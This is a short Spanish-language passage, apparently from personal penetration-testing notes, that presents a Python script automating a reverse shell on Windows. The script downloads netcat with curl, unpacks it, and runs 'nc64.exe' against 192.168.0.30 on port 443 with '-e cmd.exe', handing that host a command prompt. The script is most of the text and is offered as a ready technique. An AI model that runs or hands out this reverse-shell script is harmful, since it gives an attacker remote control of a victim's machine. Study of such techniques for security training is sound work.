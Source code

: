 Podemos automatizar en un solo script de Python que netcat se descargue y se ejecute de esta manera:
```python
import os
import shutil

os.system("curl https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip -o netcat.zip")
shutil.unpack_archive("netcat.zip")
os.chdir("netcat-1.11")
os.system("nc64.exe 192.168.0.30 443 -e cmd.exe")
```
![[Mis apuntes/ANEXOS/Pasted image 20221217090951.png]]
